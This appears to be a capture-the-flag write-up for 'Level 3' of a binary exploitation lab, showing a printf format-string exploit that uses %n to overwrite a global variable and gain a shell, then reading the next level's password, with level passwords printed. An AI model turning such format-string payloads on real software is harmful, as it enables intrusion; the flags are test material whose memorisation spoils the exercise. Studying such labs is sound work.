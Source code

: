 # Level 3
*password : 492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02*

## Analyze
```
$ scp -P 4242 level3@192.168.56.108:level3 .
```

```
  if (m == 0x40) {
    fwrite("Wait what?!\n",1,0xc,stdout);
    system("/bin/sh");
  }
```

`0x40` = 64\
`m` address : 0x0804988c

## printf exploit

- overwrite `m` value using printf
- %n: print nothing and put the number of character in a int
- use %n to put 64 in m

```
$ python -c 'print "\x8c\x98\x04\x08 %p %p %p %p %p %p"' | ./level3 
� 0x200 0xb7fd1ac0 0xb7ff37d0 0x804988c 0x20702520 0x25207025
```
address of `m` at parameter 4th.

```
$ python -c 'print "\x8c\x98\x04\x08%60u%4$n"' > /tmp/level3
$ cat /tmp/level3 - | ./level3
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```